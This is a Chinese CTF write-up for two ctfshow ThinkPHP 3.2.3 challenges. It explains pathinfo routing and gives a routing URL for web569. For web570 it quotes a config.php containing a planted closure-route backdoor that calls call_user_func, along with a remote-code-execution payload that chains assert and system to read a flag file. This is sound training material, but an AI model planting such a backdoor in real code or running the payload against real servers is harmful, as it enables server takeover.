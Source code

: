 ## web569（php3.2.3-pathinfo）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638716246273-6e9090c4-283f-40b2-a2c3-7c88aa09807d.png)
pathinfo的思想类似于flask框架，可以说是虚拟路由，在被群主一顿教育之后可算是明白了个大概555
比如在flask中，前端给个虚拟路由，后端就会根据这个路由去执行对应的方法；pathinfo的原理也类似，目的是用来弥补php的路由缺点，普通的路由访问是按照文件所在文件夹的位置而直接访问，而在pathinfo模式下，传入url的路径并不是真实存在的，比如这个题，传入/Admin/Login/ctfshowLogin并不是说真的有这个文件路径，而是作为虚拟路由去执行模块/控制/方法，下面引用一下四种路径访问模式

> 在config目录下边来做修改 URL_MODEL的值，分别表述如下：
> 1、值为0   叫做普通模式。如：http://localhost/index.php?m=模块&a=方法
> 2、值为1   叫做pathinfo模式。如：http://localhost/index.php/模块/方法
> 3、值为2   叫做rewrite重写（伪静态） 可以自己写相关的rewrite规则，也可以使用系统为我们提供的rewrite规则隐藏掉index.php，生成：http://localhost/模块/方法
> 4、值为3   叫做兼容模式。当服务器上面不支持pathinfo模式的时候，但是你又在之前的路径访问格式上面，全部用的是pathinfo格式。那么它会提示你路径格式不正确。那么，你就可以用标号为3的兼容模式来处理。他的路径访问类似于http://localhost/index.php?s=模块/方法

综上，payload：/index.php/Admin/Login/ctfshowLogin
## web570（php3.2.3-闭包路由）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638718030726-b6554051-ddf1-493f-ace3-2ad85d16174e.png)
下载源文件，翻了半天最终在\Application\Common\Conf\config.php找到了后门
```php
<?php
return array(
	//'配置项'=>'配置值'
	'DB_TYPE'               =>  'mysql',     // 数据库类型
    'DB_HOST'               =>  '127.0.0.1', // 服务器地址
    'DB_NAME'               =>  'ctfshow',          // 数据库名
    'DB_USER'               =>  'root',      // 用户名
    'DB_PWD'                =>  'ctfshow',          // 密码
    'DB_PORT'               =>  '3306',        // 端口
    'URL_ROUTER_ON'   => true, 
	'URL_ROUTE_RULES' => array(
    'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
    )
);
```
重点在12行，闭包定义的参数传递在有规则路由和正则路由两种，这里的就是规则路由，访问形式就如/ctfshow/xxx/xxx这种，然后看调用函数，和前面php特性的题差不太多，payload：
GET：/index.php/ctfshow/assert/assert($_POST[a])
POST：a=system('tac /flag_is_here');
